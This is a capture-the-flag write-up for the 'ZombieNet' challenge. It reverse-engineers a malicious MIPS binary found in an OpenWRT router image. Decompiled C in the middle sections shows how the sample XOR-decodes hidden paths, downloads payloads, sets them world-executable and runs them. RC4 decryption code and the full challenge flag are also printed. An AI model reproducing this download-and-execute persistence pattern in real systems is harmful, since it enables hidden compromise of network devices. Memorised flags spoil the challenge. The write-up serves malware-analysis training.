# WRITE_UP #

## ZombieNet ##

### 1. Analysis ###
* **Given:** an OpenWRT dump file named `openwrt-ramips-mt7621-xiaomi_mi-router-4a-gigabit-squashfs-sysupgrade.bin`
* **Description:** There was an attack on the NOC (Network Operations Center) of Hackster University and as a result, a large number of Network devices were compromised! After successfully fending off the attack the devices were decommissioned and sent off to be inspected. However, there is a strong suspicion among your peers that not all devices were identified! They suspect that the attackers managed to maintain access to the network despite our team's efforts! It's your job to investigate a recently used disk image and uncover how the Zombies maintain their access! Note: Make sure you edit /etc/host so that any hostnames found point to the Docker IP.
* **Hints:**   
    * No hints are given

### 2. Investigation ###
I was given an OpenWRT router dump, if you didn't know what that is you should probably try another challenge from `HackTheBox` as well named `Silicon Data Sleuthing` to get a knack of it, if you have tried it then let's investigate this one.

For the one who don't know:

* **OpenWRT:** OpenWrt is an open-source Linux operating system targeting embedded devices, most commonly routers. Instead of using the vendor's static and limited firmware, users flash OpenWrt to gain a fully writable filesystem with package management, allowing for deep customization.
 
First I extracted the dump using `binwalk`, after that, I opened the extracted folder in VSC to analyze further. After some minutes, I found this file named `dead-reanimation` in `squashfs-root/sbin`, which run `zombie_runner` in `squashfs-root/sbin`:





It called another file from `/usr/bin/` named `dead-reanimation`, follow the track, I found that suspicious file:



Turned out that was a **MIPS** ELF(**MIPS:** is a RISC CPU architecture commonly used in routers, embedded devices, and IoT firmware). Since my IDA dont support MIPS architecture, I use Ghidra to decompile the elf.

Inside, there are some functions, however I focused on this `FUN_00400cf4`, which looks like the main function of this program:

```c
undefined4 FUN_00400cf4(void)

{
  int iVar1;
  char local_a8 [24];
  char local_90 [20];
  undefined1 auStack_7c [60];
  undefined1 auStack_40 [56];
  
  local_a8[0] = -0x10;
  local_a8[1] = 'e';
  local_a8[2] = 'o';
  local_a8[3] = -0x66;
  local_a8[4] = '~';
  local_a8[5] = -0x1c;
  local_a8[6] = -0xc;
  local_a8[7] = -0x53;
  local_a8[8] = 'i';
  local_a8[9] = 'p';
  local_a8[10] = -0x6d;
  local_a8[0xb] = 'N';
  local_a8[0xc] = 'U';
  local_a8[0xd] = -0x1f;
  local_a8[0xe] = -0x3b;
  local_a8[0xf] = -0x72;
  local_a8[0x10] = -0x3f;
  local_a8[0x11] = '_';
  local_a8[0x12] = -0xb;
  local_a8[0x13] = ':';
  local_a8[0x14] = 0;
  local_90[0] = -0x10;
  local_90[1] = 'e';
  local_90[2] = 'o';
  local_90[3] = -0x66;
  local_90[4] = '~';
  local_90[5] = -0xe;
  local_90[6] = -0xc;
  local_90[7] = -0x53;
  local_90[8] = 'c';
  local_90[9] = 'F';
  local_90[10] = -0x74;
  local_90[0xb] = 'J';
  local_90[0xc] = '@';
  local_90[0xd] = -0x16;
  local_90[0xe] = -0x7e;
  local_90[0xf] = -0x70;
  local_90[0x10] = -0x38;
  local_90[0x11] = '\0';
  memcpy(auStack_7c,&DAT_00400f74,0x3a);
  memcpy(auStack_40,&DAT_00400fb0,0x37);
  FUN_00400c04(local_a8);
  FUN_00400c04(local_90);
  FUN_00400c04(auStack_7c);
  FUN_00400c04(auStack_40);
  iVar1 = access(local_a8,0);
  if (iVar1 == -1) {
    FUN_00400b20(auStack_7c,local_a8);
    chmod(local_a8,0x1ff);
  }
  iVar1 = access(local_90,0);
  if (iVar1 == -1) {
    FUN_00400b20(auStack_40,local_90);
    chmod(local_90,0x1ff);
  }
  system(local_90);
  system(local_a8);
  return 0;
}
```

`FUN_00400c04` is a xor function:



Basically, this function creates 2 arrays, assigns encrypted bytes to those 2 arrays, then it takes another 2 encrypted bytes array from address `00400f74` and `00400fb0`. After decrypting the encrypted arrays, it checks if files already existed using `access()`, if they haven't the program will call `FUN_00400b20()` to curl then give permission for the malwares before using `system()` to run

In Ghidra, you can use `Listing` section, press G then type the address to get the bytes array:



After extracting all bytes array from Ghidra, I used this script to see the name of the downloaded malware, I tried to reuse as much as possible of the decompile script to save time so it might look confusing:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

// xorkey
char DAT_00400f24[] = {0xdf, 0x11, 0x02, 0xea, 0x51, 0x80, 0x91, 0xcc, 0x0d, 0x2f, 0xe1, 0x2b, 0x34, 0x8f, 0xac, 0xe3, 0xa0, 0x2b, 0x90, 0x5e, 0x03, 0xa2, 0xa4, 0x32, 0xed, 0xee, 0x03, 0x96, 0x83, 0x57, 0xf4, 0xb0, 0x00, 0x00, 0x00, 0x00 };

void xor(char *param_1) //xor function copied from ghidra
{
  unsigned int uVar1;
  size_t sVar2;
  unsigned int local_10;
  
  for (local_10 = 0; sVar2 = strlen(param_1), local_10 < sVar2; local_10 = local_10 + 1) {
    uVar1 = local_10 & 0x8000001f;
    if ((int)uVar1 < 0) {
      uVar1 = (uVar1 - 1 | 0xffffffe0) + 1;
    }
    param_1[local_10] = param_1[local_10] ^ (DAT_00400f24)[uVar1];
  }
  return;
}


int main(void) //main function
{
  int iVar1;
  char local_a8[24];
  char local_90[20];
  char auStack_7c[] = {0xb7, 0x65, 0x76, 0x9a, 0x6b, 0xaf, 0xbe, 0xaf, 0x62, 0x41, 0x87, 0x42, 0x53, 0xfc, 0x82, 0x91, 0xcf, 0x5e, 0xe4, 0x3b, 0x71, 0x8c, 0xcc, 0x46, 0x8f, 0xc1, 0x67, 0xf3, 0xe2, 0x33, 0xab, 0xc2, 0xba, 0x70, 0x6c, 0x83, 0x3c, 0xe1, 0xe5, 0xa9, 0x69, 0x70, 0x8c, 0x65, 0x59, 0xd5, 0xf8, 0xae, 0xd4, 0x65, 0xfa, 0x0b, 0x30, 0xfb, 0xf7, 0x02, 0xdd, 0x00, 0x00, 0x00 };
  char auStack_40[] = {0xb7, 0x65, 0x76, 0x9a, 0x6b, 0xaf, 0xbe, 0xaf, 0x62, 0x41, 0x87, 0x42, 0x53, 0xfc, 0x82, 0x91, 0xcf, 0x5e, 0xe4, 0x3b, 0x71, 0x8c, 0xcc, 0x46, 0x8f, 0xc1, 0x71, 0xf3, 0xe2, 0x39, 0x9d, 0xdd, 0xbe, 0x65, 0x67, 0xc4, 0x22, 0xe8, 0xce, 0xa6, 0x48, 0x55, 0xae, 0x7c, 0x79, 0xfb, 0xf6, 0xb7, 0xf5, 0x53, 0xdf, 0x0d, 0x33, 0x92, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };

  
  local_a8[0] = -0x10;
  local_a8[1] = 'e';
  local_a8[2] = 'o';
  local_a8[3] = -0x66;
  local_a8[4] = '~';
  local_a8[5] = -0x1c;
  local_a8[6] = -0xc;
  local_a8[7] = -0x53;
  local_a8[8] = 'i';
  local_a8[9] = 'p';
  local_a8[10] = -0x6d;
  local_a8[0xb] = 'N';
  local_a8[0xc] = 'U';
  local_a8[0xd] = -0x1f;
  local_a8[0xe] = -0x3b;
  local_a8[0xf] = -0x72;
  local_a8[0x10] = -0x3f;
  local_a8[0x11] = '_';
  local_a8[0x12] = -0xb;
  local_a8[0x13] = ':';
  local_a8[0x14] = 0;
  local_90[0] = -0x10;
  local_90[1] = 'e';
  local_90[2] = 'o';
  local_90[3] = -0x66;
  local_90[4] = '~';
  local_90[5] = -0xe;
  local_90[6] = -0xc;
  local_90[7] = -0x53;
  local_90[8] = 'c';
  local_90[9] = 'F';
  local_90[10] = -0x74;
  local_90[0xb] = 'J';
  local_90[0xc] = '@';
  local_90[0xd] = -0x16;
  local_90[0xe] = -0x7e;
  local_90[0xf] = -0x70;
  local_90[0x10] = -0x38;
  local_90[0x11] = '\0';
  xor((char*)local_a8);
  xor((char*)local_90);
  xor((char*)auStack_7c);
  xor((char*)auStack_40);

  //print decoded strings
  printf("%s\n", local_a8);
  printf("%s\n", local_90);
  printf("%s\n", auStack_7c);
  printf("%s\n", auStack_40);

  return 0;
}
```



After running the script, I got 2 urls to download the artifacts. Curled those files, I then ran `strings` and got the first part of the flag in base64 encoded string:



* The first part of the flag is: `HTB{Z0mb13s_h4v3_inf`

So that's the `.sh` file, what about the other named `dead_reanimated`? Turned out it's another MIPS ELF:



But the story now is easier since this program is not stripped, which means I can get all the original functions' names, which saves me lots of time:



Took a look at the main function, apparently I could identify a function named `init_crypto_lib`, which suggested a crypto function:



After some research, I acknowledged that this is a valid **RC4** algorithm, which is a stream cipher, it generates a pseudo random keystream and xor it with the plaintext.

RC4 has two main stages:
  * **KSA (Key Scheduling Algorithm):** initializes a 256-byte state array, usually called `S`, with values from `0x00` to `0xff`, then shuffles it based on the key. In this program, `key_rounds_init()` matches this behavior.
  * **PRGA (Pseudo-Random Generation Algorithm):** uses the shuffled `S` array to generate one keystream byte at a time. Each keystream byte is xored with the encrypted data to recover the plaintext. In this program, `perform_rounds()` matches this behavior.  

Returned to the main function, I could spot the key and the encrypted bytes:





After getting all artifacts, I use this script to decrypt the encrypted bytes and got the other part of the flag:

```c
#include <stdio.h>
#include <string.h>

/*
 * The original binary is MIPS32, so Ghidra may print some pointers as int because both int and pointer are 4 bytes there.
 * This script is compiled on x64, where int is still 4 bytes but a pointer is 8 bytes. So the original script need modifying a bit.
*/

// since Ghidra's byte is an unsigned 8-bit value we use unsigned char here as plain char may be signed.
typedef unsigned char byte;

void swap(byte *param_1, byte *param_2)
{
    // Ghidra byte* stays byte*: swap reads and writes one byte through pointers.
    byte bVar1;

    bVar1 = *param_1;
    *param_1 = *param_2;
    *param_2 = bVar1;
}

int key_rounds_init(char *param_1, byte *param_2)
{
    byte bVar1;
    size_t sVar2;
    int iVar3;
    byte *puVar4;
    int iVar5;
    byte *pbVar6;
    int iVar7;

    sVar2 = strlen(param_1);

    iVar3 = 0;
    puVar4 = param_2;
    do
    {
        *puVar4 = (byte)iVar3;
        iVar3 = iVar3 + 1;
        puVar4 = param_2 + iVar3;
    } while (iVar3 != 0x100);

    iVar3 = 0;
    iVar5 = 0;
    do
    {
        iVar7 = iVar3 % (int)sVar2;
        pbVar6 = param_2 + iVar3;
        bVar1 = *pbVar6;

        iVar3 = iVar3 + 1;

        // Cast key chars to byte so high-bit values are handled as unsigned.
        iVar5 = ((byte)param_1[iVar7] + bVar1 + iVar5) & 0xff;

        *pbVar6 = param_2[iVar5];
        param_2[iVar5] = bVar1;
    } while (iVar3 != 0x100);

    return 0;
}

/*
 * Ghidra showed param_1/param_3 as int in the MIPS decompile because they are passed as 32-bit addresses .However these lines are pointer dereference:
 *     pbVar3 = (byte *)(param_1 + uVar5);
 *     *(byte *)(param_3 + sVar4) = ...
 * On x64 these must be byte* so the full pointer value is preserved. param_2 is also byte* because the encrypted input is raw bytes, not text.
*/
int perform_rounds(byte *param_1, byte *param_2, byte *param_3)
{
    byte bVar1;
    size_t sVar2;
    byte *pbVar3;
    size_t sVar4;
    unsigned int uVar5;
    unsigned int uVar6;

    sVar2 = strlen((char *)param_2);
    uVar6 = 0;
    uVar5 = 0;

    for (sVar4 = 0; sVar4 != sVar2; sVar4 = sVar4 + 1)
    {
        uVar5 = uVar5 + 1 & 0xff;
        pbVar3 = param_1 + uVar5;
        bVar1 = *pbVar3;
        uVar6 = bVar1 + uVar6 & 0xff;
        *pbVar3 = param_1[uVar6];
        param_1[uVar6] = bVar1;
        param_3[sVar4] =
            param_1[((unsigned int)bVar1 + (unsigned int)*pbVar3) & 0xff] ^ param_2[sVar4];
    }

    param_3[sVar2] = 0;
    return 0;
}

int init_crypto_lib(char *param_1, byte *param_2, byte *param_3)
{
    byte local_118[256];

    key_rounds_init(param_1, local_118);
    perform_rounds(local_118, param_2, param_3);

    return 0;
}

int main()
{
    char key[] = "d2c0ba035fe58753c648066d76fa793bea92ef29";

    // Use byte[] because values like 0xc5/0xf8 are data bytes, not signed chars.
    byte encrypted[] = { 0xc5, 0x7c, 0x2b, 0x05, 0x48, 0x90, 0xf3, 0xb7, 0x3f, 0x76, 0x0f, 0x5b, 0x68, 0x7b, 0x62, 0x72, 0xbd, 0xf8, 0x01, 0x9b, 0x57, 0x47, 0x1e, 0x6f, 0xdf, 0x8c, 0x55, 0x00 };

    // Same size as encrypted
    byte output[sizeof(encrypted)];

    init_crypto_lib(key, encrypted, output);

    printf("%s", (char *)output);
    return 0;
}
```



1. **Result:** The flag is `HTB{Z0mb13s_h4v3_inf3ct3d_0ur_c0mmun1c4t10ns!!}`
